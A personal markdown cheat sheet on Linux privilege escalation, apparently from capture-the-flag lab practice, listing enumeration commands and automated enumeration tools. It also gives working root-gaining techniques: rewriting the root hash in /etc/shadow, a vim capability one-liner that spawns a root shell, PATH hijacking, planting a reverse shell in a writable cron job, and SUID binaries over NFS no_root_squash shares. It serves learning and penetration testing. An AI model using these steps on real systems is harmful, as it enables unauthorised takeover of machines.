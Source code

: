 
## Linux Privilege Escalation:

- `sudo -l`
- __`find / -name local.txt 2> /dev/null`__
- __`find -type d -name ".*" 2>/dev/null`__ __it will check hidden directories.__
- __`find / -not -type l -perm -o+w`__
- __`find /  -perm -u=s -type f 2>/dev/null`__
- [password cracking](password_cracking.md)
- [gtfobins](https://gtfobins.github.io/)


- __If you have permission to write `/etc/shadow` use the below commands__
  - __First you need to creat a one hash password using openssl__
    - __`openssl passwd -1 -salt abc password123` it will give you a hash `$1$abc$DSFILJKSD7393llsd.0s/` copy that__
    - __Edit the root password__
      - __`root:$1$abc$DSFILJKSD7393llsd.0s/:1772:0:99999:7:::`__
     

---------------------
### Enumeration: 
- Here we're going to see few commands which help us in enumerating target system
1. `hostname` - lists the name of the host
2. `uname -a` - prints kernel information
3. `cat /proc/version` - prints almost same infor of above command but more like gcc version....
4. `cat /etc/issue` - exact version on the OS
5. `ps` - lists the processes that are running
	* `ps -A` - all running processes
	* `ps axjf` - process tree
	* `ps aux` - displays processes with the users as well
6. `env` - shows all the environment variable
7. `sudo -l` - lists the commands that any user run as root without password
8. `groups` - lists the groups that current user is in
9. `id` - lists id of group,user
10. `cat /etc/passwd` - displays all the user
	- `cat /etc/passwd | cut -d ":" -f 1` - removes other stuff & only displays users
	- `ls /home` - displays users
11. `history` - previously ran commands which might have some sensitive info
12. `ifconfig` (or) `ip a` (or) `ip route` - network related information
13. **netstat** - network route
	* `netstat -a` - all listening and established connection
	* `netstat -at` - tcp connections
	* `netstat -au` - udp connections
	* `netstat -l` - listening connections
	* `netstat -s` - network statistics
	* `netstat -tp` - connections with service name and pid we can also add "l" for only listening ports
	* `netstat -i` - interface related information
	* `netstat -ano`
14. **find** command which helps us in finding lot of stuff,
```
Syntax: find <path> <options> <regex/name>
find . -name flag1.txt: find the file named “flag1.txt” in the current directory
find /home -name flag1.txt : find the file names “flag1.txt” in the /home directory
find / -type d -name config : find the directory named config under “/”
find / -type f -perm 0777` : find files with the 777 permissions (files readable, writable, and executable by all users)
find / -perm a=x : find executable files
find /home -user frank : find all files for user “frank” under “/home”
find / -mtime 10 : find files that were modified in the last 10 days
find / -atime 10 : find files that were accessed in the last 10 day
find / -cmin -60 : find files changed within the last hour (60 minutes)
find / -amin -60 : find files accesses within the last hour (60 minutes)
find / -size 50M : find files with a 50 MB size
find / -writable -type d 2>/dev/null : Find world-writeable folders
find / -perm -222 -type d 2>/dev/null : Find world-writeable folders
find / -perm -o w -type d 2>/dev/null : Find world-writeable folders
find / -perm -o x -type d 2>/dev/null : Find world-executable folders
We can also find programming languages and supported languages: find / -name perl*, find / -name python*, find / -name gcc* ...etc
find / -perm -u=s -type f 2>/dev/null : Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user. This is important!
```

----------------
### Automated Enumeration Scripts:

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)


----------------------
### SUID:(Set owner User ID)
- Its a kind of permission which gives specific permissions to run a file as root/owner
- This is really helpful to test.
find / -perm -u=s -type f 2>/dev/null` this will list all the suid files

------------------
### Capabilities:
- Capabilities are a bit similar to the SUID
- Capabilities provide a subset of root privileges to a process or a binary
- In order to look for them use `getcap -r / 2>/dev/null`
- Find the binary and check that on **GTFOBins** where there's a function for **Capabilities** and try out those any of them will work!
- In the example they provided a capability for `vim` and I used `./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` which is provided in the website itself and I got root!
- Remember that this process is hit or trail, if it doesnt work move on!

----------------
### Cron jobs:
- Crons jobs are used for scheduling! Here we can schedule any binary/process to run.
- Interesting part here is that by default they run with the owner privileges.
- But if we find any cron-job which we can edit then we can do a lot!
- Cron job config is stored as **crontabs**
- To view crontab, `cat /etc/crontab`
- Any one can view it!
- Now we'll can see some cron-jobs see whether you can edit or not, if you can then edit with some reverse shell and listen!

-------------------
### PATH:
- PATH is an environment variable
- In order to run any binary we need to specify the full path also, but if the address of file is specified in PATH variable then we can simpley run the binary by mentioning its name, like how we run some command line tools like ls, cd,....etc
- In order to view the content in PATH variable we need to run `echo $PATH` and the outpur will be something like this `usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`
- So whenever you use a tool without specifying path it searches in PATH and it runs!
- We can even add new path to PATH variable by `export PATH=<new-path>:$PATH`
- Also we need to find a writable paths so run `find / -writable 2>/dev/null`
- In the example I found a location where there's a script when I run its showing that "thm" not found, also it can be run as ROOT
- So I created a binary like `echo "/bin/bash" > thm` and gave executable rights then later added the path where **thm** located to PATH variable and now when I ran the binary then I got root!

-------------------
### NFS:(Network File Sharing)
- In order to view the configuration of NFS run `cat /etc/exports` or also we can type `showmount -e <target IP>` on our machine to find the **mountable shares**.
- In the output look for directories having `no_root_squash`, this means that the particular share is *writable*, hence we can do something to acquires root!
- Now after getting some directories where we can play around lets navigate to our attacker machine and create a sample directory anywhere like `/tmp`...etc
- Now we need to mount to the target machine by, 
`mount -o rw <targetIP>:<share-location> <directory path we created>`, here `rw` means read, write privileges.
- Now go to the folder we created and create a binary which gives us root on running.
- Then go back to the target machine and we can view the binary we created in the place we mounted, now run that and get root privileges!(do note that giving executable rights is not sufficient, we also need to give share rights by `chmod +s <binary>`)
- Then we're good to go!

---------------------------
 
